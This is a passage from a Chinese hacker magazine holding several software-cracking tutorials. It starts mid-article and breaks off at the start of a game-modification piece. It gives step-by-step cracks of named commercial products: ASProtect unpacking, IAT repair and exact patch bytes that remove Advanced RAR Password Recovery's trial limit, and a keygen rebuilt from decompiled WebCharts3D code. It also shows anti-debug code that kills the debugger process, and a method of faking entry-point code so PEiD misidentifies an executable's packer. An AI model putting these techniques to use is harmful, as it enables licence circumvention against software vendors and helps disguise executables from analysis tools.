`push code` 变成了 `push [code]`，意思是压入地址 `code` 处的一个双字（4 个字节），压入的不是数组首地址。那么如何才能压入数组首地址呢？

```c
int main()
{
    printf("\n%x\n", code);   // 输出 code 首地址
}
```

```asm
lea esi, code      // 取得数组首地址保存到 esi
push esi           // 压入数组首地址
ret;
```

运行程序得到 code 数组的首地址：421cc4，采用前面提到的方法得到 Offset：00021cc5，为什么不是 21cc4，而是 21cc5 呢？我们来调试一下，如图4。

| 地址 | 数据/指令 |
|---|---|
| 00421CC4 | 61 |
| 00421CC5 | 62 63 64 |
| 00421CC8 | 65 00 00 |

右侧反汇编可见：

- `popad`
- `bound esp, qword ptr [ebx+64h]`
- `add byte ptr [eax], al`

图4

原来偏移为 21cc4 处是一条合法指令 `popad`，而 Offset: 00021cc5 是一条不合法的指令，所以操作系统便认为从偏移 00021cc5 开始非法操作了。现在第一个问题完美解决了。以上例子希望读者认真调试，提升对汇编语言、地址、C 和 asm 混合编程的理解。


### 软件破解与反破解

王欣

常常看到杂志上介绍软件破解入门的文章，可惜平时都没怎么看。但我最近由于帮朋友写一个软件注册模块，所以把这大半年的《黑客X档案》翻出来好好研究了一下软件破解资料。这些文章各有自己的侧重点，于是我把学习之后的收获整理成一篇综合一点的破解与反破解文档给初学者分享。

## 1 软件注册与破解

```delphi
var code: string;
begin
  code := transfer(edit5.Text);
  if edit6.Text = code then
    label3.Caption := '注册成功'
  else
    label3.Caption := '注册失败';
end;
```

其中 `transfer` 是注册算法函数，负责处理输入框 `edit5` 的内容并与 `edit6` 用户输入的注册码比较，相等则把 `label3` 设成“注册成功”，否则显示“注册失败”。接下来通过 Win32Dasm 查找关键跳转，定位并调试，最终得到正确注册码。


图1


图2

变成可见就行了，这样大概怎么也没法通过字符串搜索来寻找关键跳了。我们来看把前面的演示程序小小改动一下，代码如下：

```delphi
var code :string;
begin
  code:=transfer(edit5.Text);
  if edit8.Text=code then
    image1.Visible:=true
  else
    image2.Visible:=true;
end;
```

可以看出，我们代码中对成功与否的处理仅仅是打开图片的 Visible 属性。我们把它编译出来，然后用 W32Dasm 来搜索“注册失败”字符串，可以预见，它不可能找到字符串，如图5。


图5


图3


图4

05 年第 5 期的“轻松破解 QQ 聊天记录终结者”中作者提出找不到“注册码错误”字符串的疑惑，我估计很可能就是因为这个原因。


之所以 X 档案 5 期的“轻松破解 QQ 聊天记录终结者”一文的作者能够成功破解，是因为他使用了 WinHex 来读取程序内存，因为不管怎么计算，真正的注册码总会在内存中出现，并且和用户输入的注册码进行比较。我并没有想出如何阻止这种破解的方法，因为我想不出有什么方法来阻止真正的注册码在内存中出现。这种情况就像飞机在面对雷达制导的导弹一样，虽然没有办法阻止导弹的袭击，但是它可以采取施放箔条等措施来干扰导弹找到正确的目标。于是我们在进行注册校对的前后，也可以进行大量的虚假注册码计算与核对来迷惑破解者；即使我们的注册码在内存中出现，但是同时还有上百条假注册码存在于内存中，我想利用 WinHex 的破解者看到这么多的“答案”应该很头痛吧！以下是一段实现的 Delphi 程序代码：


到此破解的主要步骤就完成了，这也是以前的很多文章反复提到的地方。我们看出在这种破解思路下，利用字符串寻找关键跳是一个很重要的步骤。为了对抗这种破解，对“注册成功失败”这样的字符串的处理势在必行，05 年 4 期的“对抗 W32Dasm 之雕虫小技”就提到字符串的加密和不直接引用字符串的想法。然而，加密或者编程实现的方法固然可行，但是还是存在增加软件复杂程度和有可能被破解者找到的缺点。于是我想出一种简单可靠的方法来对抗字符串搜索：把“注册成功”“注册失败”这样的字符串做成不可见的图片，注册成功时让“注册成功”的图片变成可见就行了。

```delphi
var code:string;
    i1,i2:integer;
    s1,s2:string;
begin
  // 假注册码诱饵
  for i:=1 to 100 do
  begin
    i1:=random(100);
    i2:=random(100);
    s1:=IntToStr(i1);
    s2:=IntToStr(i2);
    if transfer(s1)=transfer(s2) then
      label3.Caption:='注册成功'
    else
      label3.Caption:='注册失败'
  end;
  // 该段结束

  code:=transfer(edit5.Text);
  if edit6.Text=code then
  begin
    image1.Visible:=true
  end
  else
    image2.Visible:=true;
end;
```

在上面的代码中，假注册码的计算结果还使用了字符串“注册成功”“注册失败”来进行提示，如果破解者首先利用字符串来寻找关键跳破解，估计破解出来的注册码会让破解者比较郁闷。


破解者在破解之前总会检查程序是否被加壳，因为壳对程序的保护作用很大。如果我们的程序在脱壳后无法运行，对于破解者的调试和跟踪将起到很大的阻止效果。假设我们的程序本来 800k，加壳以后 400k，我们只需要在程序运行开始检查自身大小，若体积大于 400k 便立即终止程序。以下便是一小段检查程序大小的 Delphi 代码：

```delphi
function GetFileSize2(filename:string):integer;
var
  s:TSearchRec;
begin
  if (findfirst(filename, faAnyfile and not faDirectory, s)<0) then result:=0
  else result:=s.Size;
  findclose(s)
end;
```

我们只需要给这个函数输入文件路径作为参数，它便可以返回此文件的体积了，所以编写一个启动时检测自身大小的代码块还是很容易实现。这样程序被脱壳后就自动关闭，或者弹出告诫破解者的对话框。如果做得有意思一点可以警告破解者：您现在已经将程序脱壳，如果继续跟踪调试，将会被格式化硬盘……呵呵，开个玩笑。


大概一个厉害的破解者可以脱掉很厉害的外壳吧，也许还能把我们前面发现被脱壳后就自动关闭的代码去掉，但是软件编写者不会让破解者轻松运行 OllyDbg 之类的调试软件来分析代码的。05 年 4 期的“杂文鉴定——反 OllyDbg 调试一法”一文就提出了这样的思想：如果发现程序不是在 Explorer 中运行，而是在调试程序中运行的话，就采取一定的措施。

可惜“杂文鉴定”一文中的代码实在比较晦涩，我觉得可读性不强，于是在网上找了一段可读性较强的代码，并且进行了少量修改，让它在 2000/XP 下也可以正常工作，代码如下：

```delphi
procedure TForm1.Button1Click(Sender: TObject);
var // 检查自己的进程的父进程
  Pn: TProcessEntry32;
  shandle: THandle;
  H, ExplProc, ParentProc, Hwnd: DWORD;
  Found: Boolean;
begin
  H := 0;
  ExplProc := 0;
  ParentProc := 0;

  // 得到所有进程的列表快照
  shandle := CreateToolHelp32SnapShot(TH32CS_SnapProcess, 0);
  pn.dwSize := SizeOf(pn);
  Found := Process32First(shandle, Pn); // 查找进程

  while Found do // 遍历所有进程
  begin
    if Pn.szExeFile = ExtractFileName(Application.ExeName) then // 自己的进程
    begin
      ParentProc := Pn.th32ParentProcessID; // 得到父进程ID
      H := OpenProcess(PROCESS_ALL_ACCESS, true, Pn.th32ParentProcessID); // 父进程句柄
    end
    else if UpperCase(Pn.szExeFile) = 'EXPLORER.EXE' then
      ExplProc := Pn.th32ProcessID; // Explorer的PID

    Found := Process32Next(shandle, Pn); // 查找下一个
  end;

  // 父进程不是Explorer，是调试器
  if ParentProc <> ExplProc then
  begin
    TerminateProcess(H, 0); // 杀掉调试程序进程
    ShowMessage('这是在调试中运行');
  end;
end;
```

我觉得这段 Delphi 代码的可读性还是比较好的，当然，读者要亲自试一下的话，请在 uses 中引用 TlHelp32 这个模块，最好还要有进程操作的 API 编程基础。不过要小心哦，这段代码在 Delphi 编译器中运行的时候它会认为程序编译器也是调试器，所以它会“六亲不认”地把程序编译器也给杀掉。

由于学习软件破解时间不长，所以我也不知道一个破解高手如何应对以上几条反破解的措施。于是根据以上几点写了个比较小的注册模块程序，这个小程序在发现被脱壳以及在被调试的时候不会关闭自身和调试器，我觉得那样难度有点太高了，我更想知道的是除掉字符串以及加入“缩水注册码”以后软件如何破解。如果有高手有办法破解或者有什么好的点子，请在 X 档案发文章告诉大家。

> （本文涉及到的反破解测试程序，光盘有收录）

## Cracker 自奇特天空 轻取压缩包密码

逆枫

- 对象：Advanced RAR Password Recovery V1.52
- 工具：OllyDbg 1.10、PED、ImportREC 1.42 + LordPE、DIRAni
- 面向读者：非会员、加解壳爱好者
- 前置知识：基本汇编常识、工具的简单使用

#### 一、前言

作为 elcomsoft 出品的系列密码恢复工具，包括 Windows 文档密码恢复、PDF 文件密码恢复、RAR 压缩包密码恢复等软件，软件的最新试用版可以到官方网站 http://www.elcomsoft.com/prs.html 进行下载。试用版的限制是在爆破模式时只能指定 3 位密码的长度，及在字典模式中破解方面有一些限制。虽然在网上有一些破解版发行，但好像做得不怎么样。本文就是从解除爆破模式时只能指定 3 位密码长度这一限制出发，依次涉及到破壳、找注册算法、寻找关键漏洞、暴力破解软件等技术。

## 二、暴力去除软件的加壳保护

由于这个软件采用 MD5 算法并用注册码与软件内置的 MD5 值进行比较，直接查找算法基本不可能，所以只好采用暴力破解软件。要暴力破解就要除掉软件的保护壳。看看软件是加什么壳，如图1。


图1

可以看到这个软件加的是 ASP1.23 的壳，由于这个软件是用 Watcom C/C++ 编写，使得修复 IAT 有点麻烦，后面会详细涉及。

第一步，寻找 OEP 入口。要找原始程序的入口，先用 OD 载入程序，会提示程序加壳压缩问要不要分析，我们选择不要分析。再设置一下 OD，点击菜单“OPTIONS/DEBUGGING OPTIONS”，按图2进行设置。


图2


图3

设置好后，按 F9 运行程序，程序会出现如图3所示的提示，并暂停。这是 ASP1.23 用到的 SEH 进行的解码，我们可以不要理会这些提示，按“SHIFT + F9”就可以继续执行。按了 25 次“SHIFT + F9”，会来到 ASP1.23 最后一个 SEH 处，如图4。


图4

执行完这个 SEH 后程序就会跳到 OEP 了，所以当程序停在图4所示处时，在那句 RETN 按 F2 下断，再按一下“SHIFT + F9”，程序就会停在那句 RETN 处。好了，如果来到上面提示的那里，我们要下内存断点让程序在 OEP 入口点处断下来。打开菜单 VIEW/MEMORY，在弹出的窗口中，按图5所示在程序的代码段下内存断点。


图5

你可能会问为什么要这样下断？因为我们知道程序分为代码段及数据段，当 ASP1.23 外壳执行完后，就要跳到真正程序的代码段，将控制权交给原程序，而刚跳到真正程序的代码处就是原程序的 OEP，如果在那里开始 DUMP 程序就可以脱掉 ASP 的外壳了。

按图5设置完内存断点后，再按一下 F9，程序就会中断在如图6的地方。


图6

可以看到程序的 OEP 为：4174E4（当前入口）-400000（程序基址）=174E4。

> **注意：** 这个值后面修复入口时要用到。注意不要关闭程序，我们将第二及第三步继续。

第二步：DUMP 程序。当来到如图6那句 4174E4 时，点菜单“PLUGINS/OLLYDUMP/DUMP DEBUGGED PROCESS”，如图7去掉 Rebuild import 选项，然后点 DUMP 按键，对程序进行保存。

第三步：修复 IAT。由于 Watcom C/C++ 编写的程序，在 ImportREC1.42 中直接填入 OEP 时会告诉你这不是一个有效的 OEP 之类的报错信息，我们要手动寻找 IAT 的位置。在程序的代码窗口中，随便找一个调用 API 的地方，如图8。


图7


图8

在图8中找到 SetDlgItemTextA 这个 API，找到其调用内存值：43A92C。我们在命令行执行 `d 43A92C`，会在内存窗口处显示 IAT 所处内存的位置。由于这块内存都可能是 IAT，所以我们要定位这段内存的最起始位置，即往上拉到数据排序的位置，如拉到 43A000 这行，往后找最尾内存那行为 43BFF8，两者相减得其大小为 1FF8（这些数字都为十六进制）。有了这些数据，现在运行 ImportREC1.42+，如图9。


图9

在 RVA 处填入 IAT 的 RVA：3A000（43A000-400000=3A000），大小填 1FF8，这些都是上面得到的数据。然后再点击“Get Imports”取得 IAT，再用 ImportREC1.42+ 插件 “ASProtect 1.2x Emul” 及 “ASProtect1.3 calculated imports” 进行修复，修复不了的选 “CUT thunks” 进行 cut 掉，然后再 Fix Dump 修复第二步所 DUMP 的程序。DUMP 完成后，还要修改 OEP 为我们找到的 OEP，用 LordPE 的 PE Editor 打开修复 IAT 后的程序，按图10所示修正 OEP。


图10

到此已经脱壳完成。由于 ASP1.23 是一个加强壳，软件脱壳对初学者来说可能难度有些大，这是正常的。有兴趣的读者可以到网上查找 ASP 脱壳相关的资料，网上有非常丰富的资料介绍。另外如果脱的过程中觉得繁琐或想直接跳过脱壳这步，也可以参考下一部分对程序进行特脱分析，通过对程序内存补丁进行软件的破解。

#### 三、分析软件注册流程

首先寻找关键验证码。在爆破模式下，如果输入的密码长度大于 4 时，就会弹出注册框。根据提示，我们可以打开脱壳后的程序，在命令行下输入 `bp MessageBoxA`，意思是如果有消息窗口就会中断在调试器 OD 中，如图11：


图11

> **注意：** 这个软件也可以带壳分析，就是直接用 OD 加载加壳的程序，F9 让它运行起来后，再按上面的方法下断点，分析的结果与下面相同。

## 神秘园

下断后，在程序爆破模式下，把密码的长度设置为 5 位以上，点击开始恢复密码，在弹出的提示框中选择“Enter Registration code”，输入假码“654321”后再确定，程序会中断在 MessageBoxA 断点这里，在 OD 中打开“View/Call Stack”窗口，看看程序从哪里跳过来，如图12。


图12

双击图12的第一行第4列处，会来到如图13所示的界面。


图13

上面找到的 `CALL 4092FF` 就是注册码验证的关键代码，对于这个验证 CALL，它要在 EAX 中返回 1 时才会注册成功，按如图14修改 `CALL 4092FF` 里面的代码。


图14

修改的方法请参考笔者在以前《X》上的文章。修改后软件虽然注册成功，但是密码长度的限制还是没有去掉。为什么呢？请看下面寻找软件加密漏洞部分，有兴趣的读者可以跟进 `40978E` 处的 call，里面就是关键的注册码运算。

#### 四、寻找软件加密漏洞

通过上面的分析可以看到，软件与外壳已经混成一体了，不过它还有一个致命的漏洞，我们可以轻松突破加密的限制。继续上面的步骤，选验证函数 `0040979E CALL dumped_.004092FF` 这行，右击，在弹出的菜单中选择如图15所示的选项。


图15

这个功能是查找程序中所有调用 `CALL dumped_.004092FF` 的地方，我们可以找到 3 个调用这个 CALL 的地址，在这 3 个地址处都下断（按 F2 下断）。现在我们整理一下思路：由于程序执行有限制功能时会取关键验证函数，即会调用 `CALL 004092FF` 这个地方……为了方便找到限制密码长度的代码，得想方法在程序取得密码长度时断下来看看它是怎么处理的。

我们可以在命令提示行下再下 `GetDlgItemInt` 这个断点，意思是取密码长度的数字时会断下来。F9 让程序运行起来后，先按上面图13的方法修改验证函数，记得再下 `GetDlgItemInt` 断点，开始点击程序中“开始恢复密码”按钮，程序第一次断在验证函数处，第二次会断在 `GetDlgItemInt` 入口处，“Ctrl+F9”返回程序代码，来到如图16处。


图16

这里就是取密码长度的代码了，有兴趣的读者可以继续跟进它的流程。在程序中把 4 赋值给全局变量 `[451578]`，后面软件会用这个全局变量对密码的长度进行模 4 的运算，并进行重新设置密码长度。这就形成了：在软件中虽然我们输入了大于 4 位的密码，模 4 运算后就会变成 3，所以软件会自动限制取 3 位。代码 `0040C932 MOV DWORD PTR DS:[451578],4` 就非常关键……修改后如图17所示。


图17

到这里程序的密码长度限制就已经去掉了，看看成功的截图18。


图18

### 五、软件补丁的制作

如果程序已经脱壳，可以将上面两处修改（图13及图16）保存到程序中就可以了；如果没有脱壳，则可以给程序打补丁，这里简单介绍一下补丁修补方法。修补前要获得程序修改的地址、原始代码、修改代码、要修改代码的长度等数据。打开 OD 的 Patchs 窗口，记下如图19所示。


图19

- 第1处修改的是由 `89C6E891E00000` 改为 `E9A70000009090`；
- 第2处修改的是由 `C7057815450004000000` 改为 `C70578154500FFFF0000`。


图20

关闭调试器 OD，运行 Advanced RAR Password Recovery 程序 `apr.exe`，再打开 DIRApi，在进程列表中选择 `apr.exe`，点击“动态内存补丁”，按照图20所示输入第1个及第2个要修改的地址、长度及要修改的代码。

点击替换后，`apr.exe` 在内存中的代码数据就被修改了，可以看到程序的密码长度限制已经去除了。由于这个方法是动态修改内存中的数据，关闭程序后修改就消失了，也可以用 KEYMAKE 软件对程序生成内存补丁文件。

#### 六、总结

本文依次介绍了 ASP 脱壳、注册算法关键代码的寻找、通过流程法与验证代码法寻找软件加密漏洞、软件的修改、动态内存补丁等实用技术，希望能对广大读者了解更多的破解知识。

（本文涉及到的工具 OllyDbg 1.1、PEiD、ImportREC 1.42+、LordPE、DIRApi，光盘有收录）

## Java程序破解之旅——WebCharts3D破解手记

米若

Java 诞生于 1995 年，以平台无关性、安全性、面向对象、分布式、健壮性等特点，特别是它简洁的面向对象的语言风格，赢得了众多程序员的青睐。但是在使用 Java 的过程中，发现它有几个弱点：运行速度慢，用户使用不便，源代码保护机制不够安全。特别是在保护源代码方面，Java 是基于解释一种叫做“Java 字节码”的中间代码来运行其程序的。不同于 Windows 系统的 PE 二进制文件格式，Java 源代码编译成的 Class 文件，不是以直接的二进制存储的，它是介于文本文件与二进制文件之间的一种“解释型”代码。这种解释型的中间代码很容易被反编译，而且所得到的代码和其原始代码十分相似，甚至可以一模一样，可读性相当好，这就给 Java 的代码保护带来了隐患，也因此才有了这次的文章。需要说明的是，读者应该了解一点 Java 虚拟机规范，至少需要熟悉 Java 语言。

近日在网上偶得一图表软件——WebCharts3D，是 Green Point 公司开发的一个提供给使用 JSP、JSF、SWT、Swing 接口平台进行工作的专业开发人员 100% 的 Java 可视化产品，能够生成常用和特殊领域的 2、3 维图表，以创新的技术实现了将多种格式（Flash、SVG、PDF、PNG、JPEG、TIFF、WBMP）的图表作为 Applet 或者交互式服务器生成图片发布至 Web 浏览器和移动设备。

WYSIWYG（所见即所得的）设计器。最新版是 V5.0，可以到 http://www.gpoint.com 下载试用版。该软件具有图表形式多样、框架格式多样，对组成元素、图例、数字标签、动作和 popup 的自定义操作等特点，被广泛应用在报表生成、数据统计、图表生成、统计等领域。

> 调试环境：Windows 2000 Pro + Java 2 SDK 1.4.2_05

使用工具：小颖 Java 源代码反编译专家 1.4 终极版 + EditPlus 2.12

默认安装情况下，WebCharts3D 设计器提供了 30 天的试用期，如图1。


图1

试用期一过，弹出对话框，提示试用过期信息：


并且设计器的菜单项 Save、Save As 和 Export 将被禁止，同时主界面上的面板项 Xml Style、Xml Model、Code View 和 Console 也会被禁止使用。

由此，我们获取了软件授权认证的基本信息：这个设计器使用了授权码，并使用授权码进行日期判断。

WebCharts3D 的运行是由 `WebCharts3D.exe` 引导的，而这个 EXE 文件只是起引导作用，并没有多大的利用价值，这一点可以在安装目录下的 `readme.txt` 文件中看到。查看 readme 文件，可以看到要运行该软件，可以执行如下命令：`java -jar wc50.jar`。分析一下 `wc50.jar` 包吧，用 WinRAR 就可以打开这个压缩包，打开之后可以清晰地看到该包的组织结构，在 `\wc5\com\gp\resources.xml` 文件中，我们找到了如下内容：

```xml
<resource key="license-expired">
  <![CDATA[The evaluation license has expired. Some options will be disabled... To purchase the full version of WebCharts3D please visit www.gpoint.com]]>
</resource>

<resource key="license-upgrade">
  <![CDATA[The license you are using is for the older release. Some options will be disabled... To purchase the full version of WebCharts3D please visit www.gpoint.com]]>
</resource>
```

编译用 Java 编写的类文件，而要反编译 Java 类文件，最好用的就是“小颖 Java 源代码反编译专家 V1.4 终极版”，该软件支持目录级源代码反编译，可以将一个目录下的所有 class 文件反编译成对应的 java 文件，十分方便、快捷，并且反编译的效果也十分好。

```java
static void setEnabled() {
    if (anInst == null) return;
    boolean flag = anInst.project != null && anInst.projectStyle != null;
    switch (options.licenseKey.status) {
        case 0:
        case 1:
        case 4:
        case 5:
            flag = false;
        case 2:
        case 3:
        default:
            anInst.setEnabled(anInst.xmlStylePanel, flag);
            anInst.setEnabled(anInst.xmlModelPanel, flag);
            anInst.setEnabled(anInst.codePanel, flag);
            anInst.setEnabled(anInst.console, flag);
            if (actions != null) {
                actions.getAction("save").setEnabled(flag);
                actions.getAction("saveAs").setEnabled(flag);
                actions.getAction("export").setEnabled(flag);
            }
    }
}
```

```xml
</resource>
<resource key="license.invalid">
<![CDATA[Invalid license, your license is invalid...]]>
</resource>

<resource key="license.exceeded">
<![CDATA[Allocated licenses exceeded...]]>
</resource>

<resource key="license.evaluation">
<![CDATA[Evaluation license will expire in % days...]]>
</resource>
```

运行 Java 源代码反编译专家，点击“操作文件夹”按钮，选择要反编译的文件夹 `\wc50\`，点击“输出文件夹”按钮，设置反编译后的 java 文件存放位置。开始反编译后，在输出目录可看到生成的对应 java 文件。

下面的工作是逐一分析反编译后的 java 文件。经过目录结构分析后，在 `\wc50_1\com\gp\design\designer\` 中可找到 `DxMainFrame.java`、`DxMainPanel.java`、`DxTabPanel.java`、`DxDesignPanel.java` 等决定界面的文件。

```java
switch (options.licenseKey.status) {
    case 1: // \001
        message(license.expired, 0);
        break;
    case 4: // \004
        message(license.upgrade, 0);
        break;
    case 0: // \000
        message(license.invalid, 0);
        break;
    case 5: // \005
        message(license.exceeded, 0);
        break;
    case 2: // \002
        if (options.licenseKey.getDaysLeft() <= 7)
            message(license.evaluation, options.licenseKey.getDaysLeft());
        break;
}
```

“咦，这些不就是程序中有关 License 的提示信息么！”程序进行 License 判断时会读取对应字符串资源并显示，同时禁用一些菜单项和面板项。若将资源键名做改动并替换到压缩包中的 `resources.xml`，过期提示可被绕过。

可以看出，`flag` 是 boolean 变量，决定菜单项和面板项是否被禁止。若将 `flag` 设为 `true`，可解除相应限制。但直接修改后再编译 class 并回填 jar 包时，仍可能出现编译不通过的问题。

此路不通后继续分析 License。在线索中可看到若干含 `LicenseKey` 的 java 文件，它们很可能与计算和判断授权码有关。打开 `DxLicenseKey.java` 继续分析代码。

```java
package com.gp.design.designer;
import com.gp.client.license.*;
import com.gp.util.MxCharset;
public class DxLicenseKey {
    ...
    return (new BB(0, null)).g(false, (byte)0, 0, 0);
}
```

因为 `g()` 函数的返回值是一个形如“XXXX-XXXX-XXXX-XXXX”的字符串，与授权码形式相同，因此可知一个 LicenseKey 是由 `(new BB(i, null)).g(false, (byte)0, 0, 0)` 生成的。

Java 程序可以在任何文本编辑器中编写，然后使用 `javac` 命令进行编译。先搭建框架。

```java
public class DesignLK {
    public static String getEvaluationLicense() {
        return (new BB(0, null)).g(false, (byte)0, 0, 0);
    }
    public static void main(String[] args) {
        String s = (new DesignLK()).getEvaluationLicense();
        System.out.print(s);
    }
}
```

保存成 `DesignLK.java`。下一步把 BB 类充实到这个框架中，先分析 BB 类的初始化代码。

```java
private BB(int i) {
    cver = 50;
    apro = i == 0;
}
BB(int i, cls1 pcls1) {
    this(i);
}
```

那么 `BB(0, null)` 就可以转换成 `BB(0)`，从而可得到：`cver = 50; apro = true;`

```java
public class DesignLK {
    private int cver;
    private final boolean apro;
}
```

修改 `getEvaluationLicense()` 函数，直接用 BB 类中 `g()` 的代码替换，由 `g(false, (byte)0, 0, 0)` 可得初值：`flag=false; byte0=0; i=0; j=0;`。

```java
public String getEvaluationLicense() {
    apro = true;
    cver = 0;
    int k = 0 % 24 << 16;
    ...
    return new String(dc(k)) + ...;
}
```

将 `getEvaluationLicense()` 中用到的 `d()` 与 `dc()` 函数添加到 `DesignLK` 类中，不需要修改。此时仍无法编译，原因是还没有 `thisc` 变量，需要到 `MxCharset.java` 中查找其声明和初始化。

```java
protected static final int mval = 0x19a0ff;
protected static char[] thisc;
class com$gp$util$MxCharset;
public MxCharset() {
    if (thisc == null) {
        thisc = new char[36];
        for (char c='A'; c<='Z'; c++) thisc[c-65]=c;
        for (char c1='0'; c1<='9'; c1++) thisc[c1-48+26]=c1;
    }
}
```

将需要的变量声明到 `DesignLK` 类中，并将 `MxCharset()` 类初始化代码改为 `DesignLK()` 类初始化代码。

```java
public class DesignLK {
    protected static final int mval = 0x19a0ff;
    public static char[] thisc;
    public int cver;
    private boolean apro;

    public DesignLK() {
        if (thisc == null) {
            thisc = new char[36];
            ...
        }
    }
}
```

`DesignLK.java` 基本扩充完毕，修改完善后的 `DesignLK.java` 源代码如下（完整代码详见光盘）。

```java
public class DesignLK {
    protected static final int mval = 0x19a0ff;
    public static char[] thisc;
    public int cver;
    private boolean apro;
    ...
}
```

## 神秘园

在命令行下输入 `javac DesignLK.java`，编译成功后运行程序，输出一串字符串作为 LicenseKey。该 LicenseKey 可填入 WebCharts 3D 的 License 中使用，并且由于基于系统时间生成，每次结果不同。

将系统日期调整后测试可发现：过期后重新运行生成程序可继续得到试用期。进一步通过把系统时间调到未来（如 2099 年）后生成 Key，可得到超长试用天数。

图3

通过该破解历程，可归纳出破解 Java 应用授权的两种路径：修改控制流程（跳过授权判断）与自行编写 KeyGen（按算法生成可用 Key）。

- 1. 查找程序控制流程，修改源码使其跳过授权码到期判断，重新编译替换 class 文件。
- 2. 查找程序算法，自行编写 KeyGen 程序生成可用序列。

对两种方式的比较：第一种对程序影响大、可能导致异常；第二种对程序本身影响小但逆向算法难度更高。并提示 Java 程序保护可采用混淆、网络加载、加密等方式。

> **郑重声明：** 破解软件的目的是学习软件编写思想与方法、提升编程能力，并非用于商业用途；若喜欢软件请注册使用。

（本文涉及程序小颖 Java 源代码及编译专家 1.4 终极版，光盘有收录）

### TIT 文字破解小组第七教学篇——伪装与反伪装

秦妮 @ [TIT] & [EST]

文章从脱壳实践出发，说明“伪装”用于欺骗 PEiD 等查壳工具。核心思想是在程序入口附近插入伪装代码，再跳回真实入口，从而使程序正常运行但被识别为特定壳。

图1

- 1. 为伪装代码开辟空间（在原程序中加入一段区域）。
- 2. 修改程序入口到伪装代码起始处。
- 3. 在伪装代码尾部添加跳转，回到真正入口继续执行。

示例中将某可执行文件加壳（如 ASPROTECT123rc1）后再用 PEiD 检测，得到对应壳特征字符串，以演示伪装效果与分析步骤。

这么简单就被查出来，显然不能达到欺骗的目的。下面要注意听了。我们就来按上述步骤进行修改程序，欺骗 PEID 吧！

#### 一、用 zeroadd.exe 为程序添加空白

运行 zeroadd.exe 选择程序后，“输入新增 section 名”一栏随便写，下面的大小栏也可以随便填写，不过最好不要太大，如图3。都设置好了点“生成新文件”，如果成功将会有如图4的提示。

#### 二、修改程序入口

在正式修改之前，我们先记录一些数据：点击图2中“EP Section”右边的“>”记录程序入口地址 00001000 和我们所加的 Section 的地址 00015000，如图5、图6。

这时修改后的程序是不能正常运行的，因为我们还没有伪装代码，只是添加了一些 0000 0000 的空数据。

再点击图2中“First Bytes”右边的“>”，这就是程序入口处的反汇编代码。看图7的地址 00401000 就是入口实际地址。

下面我们就来正式修改了，要注意哦。打开 LordPE.EXE，点“PE 编辑器”，选择受修改的文件 Window 按钮突破专家 1.exe，在弹出的窗口里将“入口点”改为 00015000，将程序入口点指定为 PE 文件头中我们添加的 qn2X 节。也就是让程序从我们伪装的代码开始运行。点“保存”完成修改，如图8。

#### 三、伪装代码

下面就是本文的核心内容了，也是伪装欺骗的关键。打开 Ollydbg.exe 加载修改过的 Window 按钮突破专家 1.exe，会有一个“入口点预警”说 PE 文件头被指定，废话当然被指定了，我就是要程序从我们指定的 qn2X 节开始呢，上步的目的就是这个啊。不理它直接点“确定”，如图9。

来到入口：00415000 > 0000 add byte ptr ds:[eax],al 处，然后右击之，在右键菜单中选择“汇编”，如图10。

在弹出的汇编窗口中输入指令 PUSH EBP 点汇编，会看到 00415000 处的代码已经被我们修改为 00415000 > 55 push ebp 了，如图11。

用同样的方法继续输入下面各条指令。

图10  
图11  
图13

```asm
MOV EBP,ESP
PUSH -1
PUSH 000A2C2A
PUSH 000D9038
MOV EAX,FS:[00000000]
PUSH EAX
MOV FS:[00000000],ESP
POP EAX
MOV FS:[00000000],EAX
POP EAX
POP EAX
POP EAX
POP EAX
MOV EBP,EAX
JA ...
```

图14

到这里伪装基本算完成了，可是程序这时还不会正常运行，我们还要加条指令，让程序跳到原来的入口处。原来的入口真实地址在图7中已经知道，是 00401000，那我们就再加一句跳转指令 `JMP 00401000` 不就 OK 了么？修改完后如图12。然后就是保存修改后的文件了。选择所有修改的代码段右键“复制到可执行文件”→“选择部分”，如图13。在弹出窗口中右击，选“保存文件”，保存为 Window 按钮突破专家2.exe，大功告成！下面检验一下我们辛勤的劳动成果吧！双击 Window 按钮突破专家1.exe，正常运行！用 PEID 0.93 查壳，可以看到查询结果是“Microsoft Visual C++”…

图12

知道了如何伪装，那去伪装自然就事半功倍了。通过上面的学习，相信你已经想到如何去伪装了吧？只要将入口点改回原来的入口点，使伪装代码不被运行就可以了。你可以用 Ollydbg.exe 加载 alaq0720.exe 来阅读伪装代码，我这里介绍一个简单的方法来阅读伪装代码：用 PEID 0.93 提供的入口代码查看器。看看他的伪装代码，是不是和我们刚才写的差不多呢？

```asm
004AE03A  B8B0B04A00    MOV EAX,004AB0B0
004AE03F  FFE0          JMP EAX
```

它没有直接使用 `JMP 004AB0B0`，而是先给 EAX 赋值，再 `JMP EAX`。其实这种做法和 `JMP 004AB0B0` 作用一样。那正式入口大家就看到了 004AB0B0。再用 LordPE.EXE 修改入口地址。保存修改，运行程序，正常！用 PEID 0.93 查壳，结果令人满意：“UPX 0.89.6 - 1.02 / 1.05 - 1.24 (Delphi) stub --> Markus & Laszlo”。

图15  
图18  
图16  
图19  
图17  
图20

#### 四、总结

在弹出窗口中点 OEP 右边的“->”获得程序 OEP：00473D2C。再点“Unpack”脱壳，如图18。

这时程序会自动脱壳并提示你是否用 Import REC 自动修复，一般来讲选“是”就可以直接得到脱壳程序。但我没有自动修复成功，不过仍可得到一个 alaq0720.exe.unpacked_.exe 程序，这个程序无法正常运行，那我们就来手动修复一下吧。修复方法上篇文章已经讲过，这里只要将 OEP 改成上面获得 00473D2C 减去基址 00400000，就是 73D2C，就可以了，得到脱壳程序 alaq0720.exe.unpacked_.exe，如图19。

双击运行，正常！再用 PEID 0.93 查壳，结果“Borland Delphi 6.0 - 7.0”，如图20。

上篇文章的四个问题在本文中已经可以找到答案了，这里就不再说了。本文主要是想让大家清楚如何伪装程序来欺骗 PEID，并通过伪装来学习去除伪装的方法。相信大家已经掌握。对于软件保护来说，加壳是很常见的手段，加强壳也是一种极其有效的方法。如果有机会我会继续向大家介绍有关手动脱壳的基本知识。希望通过此篇文章的学习能有所收获。

> （本文涉及到的程序 peid、lordpe、啊啦QQ大盗1.6J会员版、Window 按键变换专家、zeroadd，光盘有收录）

## 菜鸟破解实战之：我的游戏我作主

何京涛

其实学习破解的目的不仅仅是收费东西免费用，如果运用得当，它会给我们带来许许多多的乐趣。今天带给大家几个修改游戏的实例，水平有限，权当参考。

### 一、预备篇：游戏修改的原理

